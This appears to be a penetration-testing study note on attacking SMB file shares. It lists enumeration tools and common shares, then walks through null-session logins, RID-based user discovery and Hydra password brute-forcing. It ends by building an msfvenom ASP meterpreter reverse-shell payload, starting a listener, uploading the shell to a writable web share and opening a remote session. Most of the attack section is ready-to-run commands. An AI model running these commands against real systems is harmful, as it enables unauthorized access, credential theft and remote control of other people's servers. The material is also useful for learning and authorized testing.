 # SMB
- The protocol used for sharing between devices in MS and Linux
- Also known as CIFS
- SAMBA is linux version
- TCP port 139 is SMB over NETBIOS (older windows)
- TCP 445 is SMB over IP (newer)

## Enumeration Tools
- Nmap NSE
- enum4linux
- smbclient
- rpcclient

## Common Shares
C$ - C drive of remote host
Admin$ - windows install dir
IPC$ - inter-process communication

## Key points
- can you access as guest
- can you brute force
- can you read / write
- if you can write to a share can you access it later for a shell?

# Enumerate Shares
There are multiple ways to enumerate SMB shares.

```
net share
nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum-shares
smbclient -L \\192.168.1.1 --option='client min protocol=NT1'
enum4linux -S 10.10.10.10
```


## Enumrate Users RPCClient
We can use this to enumerate the server, users and domain users on the system.

`rpcclient -U "" 192.168.1.1 --option='client min protocol=NT1'`

## Connecting
Connect to SMB share:
`smbclient \\\\192.168.1.1\\SHARENAME`
 
Connect with user:
`smbclient \\\\192.168.1.1\\inetpub --option='client min protocol=NT1' -U IEUSER`

## Brute Force with Hydra
Bruce force an account with the following command:
`hydra -l IEUSER -P ~/Desktop/passwords.lst 192.168.1.1 smb`


## Enumeration Demo

 1. Use Nmap to scan and enumerate smb
```
nmap 192.168.1.1 --script=smb-enum* -p 445 -vvv
```

 2. Attempt to log in
 Using rpcclient:
 ```sh
 rpcclient -U "" 192.168.1.1
 rpcclient $> ?
 ```

 Using smbclient
 ```sh
 smbclient \\\\192.168.1.1\\SHARENAME
 ```

 3. Discover Users
 It is possible to guess using common numbers

```sh
rpcclient $> queryuser 500 (admin)
rpcclient $> queryuser 1000 (admin)
```

4. Once you have found a user, we will use hydra to brute force the password.
`hydra -l IEUSER -P passwords.lst 192.168.1.1 smb`

5. Now that we have a username and password we can run nmap again using those credentials.
```
nmap --script smb-enum* --script-args smbusername=IEUSER, smbpass=Passw0rd! -p445 192.168.1.1
```

6. This will give us signigicantly more information:
- logged in sessions
- other users
- directories

7. We'll notice this user has read / write access to the webserver "inetpub". We'll want to access this directly.
```smb
smbclient \\\\192.168.1.1\\inetpub -U IEUSER
smb: \> cd
```

8. Create .asp reverse shell using MSFVenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f asp > shell.asp
msfconsole -x "use /exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.1; set lport 4444; run -j"
```
`-j` - Background process


9. Moving back to our smb session:
```sh
smb:  put shell.asp shell.asp
```

10. On the exploited webserver go to the uploaded shell.asp file
A meterpreter sessions will be opened. 
```sh
msf6 exploit(multi/handler) > session 1
meterpreter > shell
```

